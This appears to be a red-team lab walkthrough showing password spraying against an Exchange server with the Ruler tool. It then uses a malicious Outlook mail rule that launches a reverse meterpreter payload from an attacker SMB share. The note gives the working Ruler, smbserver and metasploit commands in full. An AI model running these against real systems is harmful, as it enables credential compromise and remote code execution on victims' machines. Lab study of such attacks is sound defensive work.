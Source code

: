 # Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker (with the help of a tool) cycles through a list of possible usernames (found using OSINT techniques against a target company or other means) with a couple of most commonly used weak passwords.

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password      |
| ---- | ------------- |
| john | Winter2018    |
| ben  | Winter2018    |
| ...  | Winter2018    |
| john | December2018! |
| ben  | December2018! |
| ...  | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password    |
| ---- | ----------- |
| john | Winter2018  |
| john | Winter2018! |
| john | Password1   |
| ben  | Winter2018  |
| ben  | Winter2018! |
| ben  | Password1   |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% code title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of:\
  ` if emailSubject contains`` `` `**`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](../../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe`

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% code title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% code title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode %}

Finally, we fire up the ruler and create the malicious email rule:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](../../.gitbook/assets/peek-2018-12-23-18-13.gif)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](../../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

If you want to delete the malicious email rule, do this:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" %}
